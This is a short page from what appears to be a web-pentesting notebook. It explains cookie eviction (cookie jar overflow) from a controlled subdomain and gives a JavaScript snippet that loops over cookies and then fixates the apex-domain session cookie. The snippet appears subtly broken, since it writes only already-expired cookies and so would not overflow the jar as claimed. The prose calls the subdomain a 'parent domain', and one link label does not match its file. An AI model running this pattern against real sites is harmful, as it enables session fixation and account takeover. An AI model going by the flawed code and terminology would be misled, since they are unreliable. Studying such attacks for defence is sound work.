

# Cookie Eviction (Cookie Jar Overflow)

>[!info]
>If an **attacker can control a subdomain** or the apex domain of a company or finds an [XSS](Cross-Site%20Scripting%20(XSS).md) in a subdomain he will be able to perform this attacks.

Cookie Eviction allow an attacker to drop some cookies stored within the Cookie Jar.

Cookie Jar has a limit specific to an entire site, not an origin:
- 0xbro.red can have around 180 cookies
- test.0xbro.red can have **other** 180 cookies

From a parent domain (test.0xbro.red), I can perform this attack to drop a specific cookie (also having protection on it) on the apex domain (0xbro.red), and then fixate it again using [Cookie Tossing](Cookie%20Tossing.md) or [Cookie Fixation](Header%20Fixation.md):

```js title:foo
document.cookie // session=legitimate; domain=0xbro.red; Secure; HttpOnly

// Remove all cookies
for (let i = 0; i < 700; i++) {
    document.cookie = `x${i}=_;expires=Thu, 01 Jan 1970 00:00:01 GMT`; // those cookies are bounded to the origin (test.0xbro.red)
}

// Fixate cookie 
document.cookie = "session=fixate; domain=0xbro.red";
```



# External refences
- [Cookie Tossing](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-tossing), HackTricks
- [BH23 Cookie Crumbles Slides](https://minimalblue.com/data/papers/BHUSA23_cookie_crumbles-slides.pdf), Marco Squarcina
- [USENIX23 Cookie Crumbles Slides](https://www.usenix.org/system/files/sec23_slides_squarcina-marco.pdf), Marco Squarcina
